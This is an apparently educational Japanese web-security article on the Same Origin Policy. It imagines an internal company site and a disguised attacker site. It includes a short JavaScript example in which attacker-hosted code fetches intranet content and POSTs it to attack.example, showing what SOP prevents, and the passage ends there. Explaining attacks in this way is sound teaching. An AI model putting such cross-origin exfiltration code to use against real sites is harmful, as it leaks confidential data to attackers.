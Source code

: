 ```yaml
---
title: "Same Origin Policy というセキュリティモデル"
emoji: "📝"
type: "tech"
topics: ["same origin policy", "origin", "web"]
published: false
---
```


# Same Origin Policy

SOP とは、ユーザーを保護するために Web に設けられた **セキュリティモデル** である。まずは、 SOP が実際にユーザーをどのように保護するのかを見ていく。


## SOP が無かったら

まず SOP を意識する身近な場面として、ブラウザから`fetch()` API を用いて HTTP リクエストを送信するケースを例に考える。

以下のような Web サイトを想定しよう。

- 社内サイト(Intra)
  - <https://intra.example> は、社内ネットワークに接続した社員のみアクセスできる
  - そこには社外秘の情報があり、社外からこの情報を狙う攻撃者がいる
  - 社員は、社外ネットワーク(インターネット)にもアクセスできる
- 攻撃者サイト(Attack)
  - <https://attack.example> はインターネット上にあり、誰でもアクセスできる
  - カモフラージュのため EC サイトなどを装っているが、悪意のある攻撃者が運営している
  - 攻撃者は社内ネットワークにはアクセスできないが、社員を Attack にアクセスさせ、 Intra の情報を収集できないかと狙っている

![Intra と Attack の構成](https://cacoo.com/diagrams/L0Jn5wPiobCrsSDy-98D42.png 'overview')

:::message
.example は [例示のため](https://blog.jxck.io/entries/2017-09-27/example-local-test-domains.html) に自由に使うことができる Top Level Domain だ。
実際に購入し使われることは無いため、一般的には .com などと読み替えるとわかりやすいかもしれない。
:::


## 攻撃者サイトからの攻撃例

攻撃者が Attack に次のような JS を仕込み、そのページを何らかの方法で社員にアクセスさせることで、 Intra の情報を抜こうとしているとする。


```js
// AttackからIntraの情報を取得する
const res  = await fetch("https://intra.example")
const text = await res.text()

// その情報をAttackに転送する
await fetch("https://attack.example", {
  method: "post",
  body:   text
})
```
